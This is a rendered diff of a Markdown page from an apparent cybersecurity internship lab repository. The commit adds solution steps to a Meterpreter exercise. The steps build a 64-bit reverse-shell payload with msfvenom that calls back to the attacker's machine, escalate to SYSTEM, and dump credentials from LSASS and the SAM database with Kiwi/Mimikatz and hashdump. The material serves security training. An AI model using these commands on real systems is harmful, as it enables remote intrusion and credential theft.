

Before and after one commit to aaronamran/MCSI-Remote-Cybersecurity-Internship, a Markdown page: Security Tools/meterpreter.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Security Tools/meterpreter.md
+++ b/Security Tools/meterpreter.md
@@ -58,4 +58,21 @@ In cybersecurity, understanding how attackers extract credentials is key to effe
 
 
 #### Solutions
-1.
+1. Since Kiwi is an integration of Mimikatz into Metasploit by providing functionality directly in a Meterpreter session, it requires a 64-bit Meterpreter session to avoid errors such as `ERROR kuhl_m_sekurlsa_acquireLSA ; mimikatz x86 cannot access x64 process`
+2. If the reverse shell in the previous Meterpreter task is 32-bit, recreate a new 64-bit reverse shell using the command:
+   ```
+   msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Kali_Linux_IP_address> LPORT=4444 -f exe -o /home/kali/Desktop/reverseshell.exe
+   ```
+3. Move the reverse shell from the Desktop directory into the web server directory (/var/www/html)
+4. Download the reverse shell in the Windows 10 VM and run it as an administrator
+5. Once a Meterpreter session is available in Kali Linux, run `getsystem` to escalate privileges
+6. Confirm you are running as a SYSTEM user using `getuid`. You should see something like `Server username: NT AUTHORITY\SYSTEM`
+7. To load Mimikatz in Meterpreter session, use `load kiwi`
+8. Use `kiwi_cmd sekurlsa::logonpasswords` to extract credentials from LSASS memory. This will dump usernames and password hashes
+9. To dump password hashes from the SAM database, use `hashdump`
+
+Screenshot of how Kiwi is used in a Meterpreter session:
+![image](https://github.com/user-attachments/assets/3fbaa79a-b163-43d5-bc50-7bb025b4c288)
+
+Screenshot of how hashdump is used in a Meterpreter session:
+![image](https://github.com/user-attachments/assets/c7454ba6-d740-40a6-8712-484b0b132c90)
````
